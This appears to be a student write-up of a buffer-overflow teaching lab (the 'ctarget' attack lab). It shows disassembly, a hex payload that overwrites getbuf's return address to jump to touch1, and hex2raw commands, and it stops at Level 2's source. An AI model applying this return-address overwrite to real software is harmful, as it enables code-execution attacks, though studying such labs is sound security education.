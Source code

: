 ## Level 1

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```
Task:get _ctarget_ execute the code for _touch1_ when _getbuf_ execute its return statement.
```assembly
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
```
The starting address of _touch1_
```assembly
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
```
Problems encountered and solutions:
You cannot directly write "00000000004017c0" after 40 char as it's not an address but a seris of ascii code such as '0' is 48!!!

> 48 may still not be right. Because 48 is 0 if and only if we treat the address of it as a char.

It's not easy to address this problem as the range of ascii is 0 ~ 127.
So if you want to input 48(0x30) into the stdin,you can directly type '0'(a char).However,if you want to input 192(0xc0),there is no corresponding letter.

> In fact 192 has corresponding letter, you can use Mac's calculator to search.But not all letters can easily found on keyboard.

We can use _Hex2raw_ to convert.
_Hex2raw_ 可以将一个byte(用16进制表示)转化成能直接输入内存的形式。
比如讲 30 转换成 '0'.

So the solution of level1 is
`./hex2raw < level1.txt > level1_raw.txt`
`./ctarget -qi level1_raw.txt`

```
/* level1.txt */ 
33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33
33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33
C0 17 40
```
The dest address is 0x4017c0 and the original address is 0x4019a4 so I begin to wonder if I can only type c0 17 at the end of file. It fails because __Gets add an '\0' at the end of input string__. So the ($rsp+0x28) would become 0x0017c0.
## Level 2
```c
void touch2(unsigned val)
{
  vlevel = 2; /* Part of validation protocol */
  if (val == cookie) {
    printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } 
  else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
```